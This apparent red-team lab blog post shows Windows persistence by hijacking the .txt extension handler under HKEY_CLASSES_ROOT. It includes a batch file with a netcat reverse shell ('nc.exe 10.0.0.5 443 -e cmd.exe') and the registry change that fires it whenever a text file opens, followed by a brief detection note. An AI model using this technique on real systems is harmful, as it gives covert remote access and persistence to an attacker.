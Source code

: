 ```yaml
---
layout: post
title: "2024-06-18-hijacking default file extension"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /hijacking-default-file-extension/
---
```


# Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension (among many others) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.&#x20;

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](<../../.gitbook/assets/image (427).png>)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](<../../.gitbook/assets/image (430).png>)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\tools\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](<../../.gitbook/assets/image (429).png>)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](<../../.gitbook/assets/image (431).png>)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" %}
@spotheplanet
